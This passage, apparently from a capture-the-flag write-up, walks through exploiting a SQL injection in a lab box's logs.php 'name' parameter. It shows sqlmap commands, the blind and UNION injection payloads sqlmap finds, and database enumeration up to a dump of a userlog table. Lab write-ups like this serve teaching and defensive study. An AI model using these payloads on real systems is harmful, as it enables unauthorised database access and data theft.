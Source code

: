 #### sqlmap

Doing this enumeration in Repeater from this point is annoying, so I'll
pivot to `sqlmap`. I'll save the clean (no SQL injection) request to a
file from Burp with right-click "Copy to file". Now I can give that to
`sqlmap` and let it find the same injection:



    oxdf@hacky$ sqlmap -r logs.php.request
    ...[snip]...
    [13:49:55] [INFO] GET parameter 'name' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    GET parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 67 HTTP(s) requests:
    ---
    Parameter: name (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: name=admin') AND 1081=1081 AND ('fFTi'='fFTi

        Type: time-based blind
        Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
        Payload: name=admin') OR (SELECT 8283 FROM (SELECT(SLEEP(5)))Uyda) AND ('jpVt'='jpVt

        Type: UNION query
        Title: Generic UNION query (NULL) - 3 columns
        Payload: name=admin') UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7171,0x42676d6d686b6b5452657553507950506a6f6e62636662536d796450626944475270784f62646e4a,0x71717a7071)-- -
    ---
    [13:51:32] [INFO] the back-end DBMS is MySQL
    [13:51:32] [CRITICAL] unable to connect to the target URL ('Broken pipe'). sqlmap is going to retry the request(s)
    web server operating system: Linux Ubuntu 18.04 (bionic)
    web application technology: Apache 2.4.29
    back-end DBMS: MySQL >= 5.0.12
    ...[snip]...



Next I'll list the DBs:



    oxdf@hacky$ sqlmap -r logs.php.request --dbs
    ...[snip]...
    available databases [4]:
    [*] cmsmsdb
    [*] information_schema
    [*] logs
    [*] Overflow
    ...[snip]...



With `-D logs --tables` it shows only one table, `userlog`.

`-D logs -T userlog --dump` shows the logins:

